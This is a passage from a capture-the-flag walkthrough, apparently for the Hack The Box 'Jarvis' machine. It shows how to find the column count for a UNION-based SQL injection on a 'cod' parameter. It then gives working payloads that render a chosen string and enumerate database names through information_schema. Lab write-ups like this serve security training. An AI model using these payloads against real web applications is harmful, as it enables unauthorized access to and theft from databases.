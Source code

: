 But when specifying 7, the web app returns the same amount of bytes (6522) I got when querying `cod=1` without SQL injection:

![](/assets/images/htb-jarvis/jarvis-order-by-success.png)

At this point, I had determined there were 7 columns avaialble for injection.

### 3) Render the data

Notice below that I set `cod=-1` because the 6th field rendered to the page if no image could be found.

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,'r0kit',NULL;#
```

![](/assets/images/htb-jarvis/jarvis-sql-injection-render-data.png)

### 4) Enumerate the databases

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT GROUP_CONCAT(schema_name SEPARATOR ', ') from information_schema.schemata),NULL;#
```

![](/assets/images/htb-jarvis/jarvis-sql-injection-list-databases.png)
